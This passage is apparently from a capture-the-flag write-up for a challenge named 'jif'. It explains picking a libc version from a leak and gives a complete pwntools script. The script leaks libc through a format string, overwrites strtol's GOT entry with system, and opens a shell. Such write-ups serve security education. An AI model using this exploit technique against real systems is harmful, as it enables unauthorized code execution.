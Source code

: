 Only `b10` had a match, it's your lucky day.  Well it had 5 matches.  You can reason through this one just on sight.  The last one libc6_2.27 is probably the best guess (ask yourself what have you come across the most.)

With the libc location and version leak, crafting a format-string to overwrite the GOT and replace `strtol` with `system` is _mostly_ trivial.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./jif')

while True:
    if args.REMOTE:
        p = remote('chals5.umdctf.io', 7002)
        libc = ELF('./libc6_2.27-3ubuntu1.4_amd64.so')
        __libc_start_main_offset = 231
    else:
        p = process(binary.path)
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        __libc_start_main_offset = 243

    payload  = b''
    payload += 272 * b'A'
    payload += b'%51$p'

    p.sendlineafter('CONSOLE> ',payload)

    p.recvuntil('Current location: ')
    _ = p.recvline().strip()
    __libc_start_main = int(_,16) - __libc_start_main_offset
    log.info('__libc_start_main: ' + hex(__libc_start_main))
    libc.address = __libc_start_main - libc.sym.__libc_start_main
    log.info('libc.address: ' + hex(libc.address))

    if (libc.sym.system >> 16 == libc.sym.strtol >> 16):
        break
    else:
        p.close()
        continue

log.info('system.address: ' + hex(libc.sym.system))
log.info('strtol.address: ' + hex(libc.sym.strtol))

payload  = b''
payload += 272 * b'A'
payload += b'%' + str(libc.sym.system & 0xFFFF).rjust(6,'0').encode() + b'c'
payload += b'%0018$hn'
payload += p64(binary.got.strtol)

p.sendlineafter('CONSOLE> ',payload)
p.sendlineafter('CONSOLE> ','/bin/sh')
p.interactive()
```
